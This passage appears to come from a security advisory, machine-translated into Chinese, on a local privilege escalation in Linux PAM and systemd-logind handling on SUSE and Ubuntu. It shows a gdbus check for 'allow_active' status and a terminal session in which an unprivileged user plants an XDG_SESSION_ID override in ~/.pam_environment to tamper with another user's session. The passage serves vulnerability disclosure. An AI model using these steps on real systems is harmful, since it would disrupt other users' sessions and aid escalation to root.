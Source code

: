 ```

victim> gdbus call --system --dest org.freedesktop.login1 --object-path /org/freedesktop/login1 --method
org.freedesktop.login1.Manager.CanReboot
('yes',)
```

  
最后补充说明：SUSE Linux Enterprise Server 15 使用的是 "restrictive"（限制性）polkit 设置，而不是 "standard"（标准）设置；因此，我们必须调用 CanSuspend()（其设置为 "auth_admin_keep:auth_admin_keep:yes"）而不是 CanReboot()（其设置为 "auth_admin_keep"）来确定我们是否被认证为物理的 "allow_active" 用户。  
  
我们将在本公告的下一节中探讨一种简单的方法，将这个小的本地权限提升（LPE，从非特权用户到 "allow_active" 用户）转化为完整的 root 权限提升（LPE）；但在此之前，我们先做一个简短的插叙。  
  
插叙  
  
在 Debian 12 和 Ubuntu 24.04 上，当非特权用户通过 sshd 登录时，PAM 的 pam_env 模块（来自 Linux-PAM 1.5.x）也会读取该用户的 ~/.pam_environment 文件，因为 pam_env 的 "user_readenv" 在 /etc/pam.d/sshd 中被显式设置为 1（自 Linux-PAM 1.4.0 以来，默认值为 0）。  
  
然而，与 openSUSE Leap 和 SUSE Linux Enterprise 不同，Debian 和 Ubuntu 只在 PAM 的 "session" 堆栈的最后调用 pam_env 模块，因此该用户的任意 PAM 变量（来自 ~/.pam_environment）不会干扰 pam_systemd 模块的 pam_sm_open_session() 代码。  
  
尽管如此，我们注意到，通过设置 XDG_SESSION_ID 变量（在 ~/.pam_environment 中）为另一个用户的会话 ID，非特权的本地攻击者可以干扰 pam_systemd 模块的 pam_sm_close_session() 代码，从而干扰该其他用户的会话（例如，将其标记为 "closing" 而不是 "active"，并删除其 .ref FIFO）：  

```
attacker$ ssh evey@victim
evey@victim's password:


victim$ grep PRETTY_NAME= /etc/os-release
PRETTY_NAME=&#34;Ubuntu 24.04.2 LTS&#34;


victim$ id
uid=1001(evey) gid=1001(evey) groups=1001(evey),100(users)


victim$ ls -l /run/systemd/sessions
total 8
-rw-r--r-- 1 root root 314 May 13 21:25 4
prw------- 1 root root   0 May 13 21:25 4.ref
-rw-r--r-- 1 root root 310 May 13 21:33 6
prw------- 1 root root   0 May 13 21:33 6.ref


victim$ cat /run/systemd/sessions/4


# This is private data. Do not parse


UID=1000
USER=theadmin
...
STATE=active
...
FIFO=/run/systemd/sessions/4.ref
...


victim$ echo 'XDG_SESSION_ID OVERRIDE=4' > .pam_environment


victim$ exit

```